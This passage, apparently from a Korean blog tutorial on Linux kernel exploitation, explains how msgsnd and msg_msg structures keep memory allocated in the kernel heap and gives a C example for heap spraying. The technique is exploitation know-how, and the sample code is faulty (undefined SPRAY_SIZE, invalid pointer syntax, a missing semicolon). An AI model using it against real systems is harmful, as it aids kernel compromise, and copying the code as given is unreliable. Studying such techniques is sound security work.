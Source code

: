 이 때 유저가 원하는 데이터를 원하는 크기만큼 힙 영역에 할당시킬 수 있는 방법은 여러가지가 있을것이다. 

하지만 대부분은 **익스플로잇을 하는 동안 커널 힙 영역에 메모리 할당을 유지하는 조건**을 달성하기가 힘들다. 

`sys_msgsnd`를 사용하여 `msg_msg` 구조체를 메시지 큐에 넣는다면, `sys_msgrcv`를 통해 메시지 큐에서 해당 메모리를 팝 하지 않는 이상, 커널 힙 메모리에 메모리가 계속 할당된 채로 유지한다! 

따라서 `sys_msgsnd` 를 이용해 `msg_msg` 구조체를 할당하는 방법은 커널 힙 스프레이에 유용하다.

## **How to use msg_msg**

그럼 직접 `msg_msg`를 사용해 heap spray를 해보자.

`sys_msgsnd` 시스템 콜은 `msgsnd` API 를 통해 할 수 있다. 

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <sys/ipc.h>
#include <sys/msg.h>

#define SPRAY_SIZE

struct msgbuf {
    long mtype;
    char mtext[1];
}

int msg_msg_spray(int spray_count)
{
    int spray_queue;
    struct *msgbuf msg_buf = (struct msgbuf*)malloc(SPRAY_SIZE);
    int i;
    
    if (spray_queue = msgget(IPC_PRIVATE, 0666 | IPC_CREAT) == -1)
    {
        perror("create queue failed");
        return;
    }

    for(i = 0; i < spray_count; i++)
    {
        if (msgsnd(spray_queue, msg_buf, SPRAY_SIZE - sizeof(msgbuf.mtype), 0) < 0)
        {
            perror("msgsnd failed");
        }
    }
}

int main(void)
{
    msg_msg_spray(0x10000);
}
```
